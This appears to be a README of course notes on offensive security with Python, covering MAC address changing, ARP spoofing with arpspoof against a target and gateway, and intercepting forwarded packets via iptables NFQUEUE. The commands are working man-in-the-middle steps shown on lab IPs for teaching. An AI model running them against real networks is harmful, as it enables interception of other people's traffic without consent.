 # Offensive Security Python
> From Zaid Sabih

* Topics
- Changing MAC Address 
- Network Scanner
- ARP Spoofing
- Packet Sniffer

## Playbook
> Check on how to use these tools 

## Dependencies on PIP
- scapy
- scapy_http
- netfilterqueue

# Notes
> On doing this things manually or with another tool

## Changing MAC ADDRESS
Commands
```
ifconfig wlan0 down
ifconfig wlan0 hw ether 00:11:22:33:44:55
ifconfig wlan0 up
ifconfig wlan0 
```
## ARP SPOOF 
* Reminder you need to enable ip forwarding in Linux First
```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

Terminal 1 for Target  
```
arpspoof -i <INTERFACE> -t <TARGET IP> <GATEWAY IP>
arpspoof -i eth0 -t 10.0.2.7 10.0.2.1
```

Terminal 2 for Gateway  
```
arpspoof -i <INTERFACE> -t <GATEWAY IP> <TARGET IP>
arpspoof -i eth0 -t 10.0.2.1 10.0.2.7 
```

## Intercepting Packets
```
iptables -I FORWARD -j NFQUEUE --queue-num 0
```

--- 

### Python 3 Compatibility

pip3 install scapy-python3

#### Same line Printing 
print("\r [+] Info counter", end="")

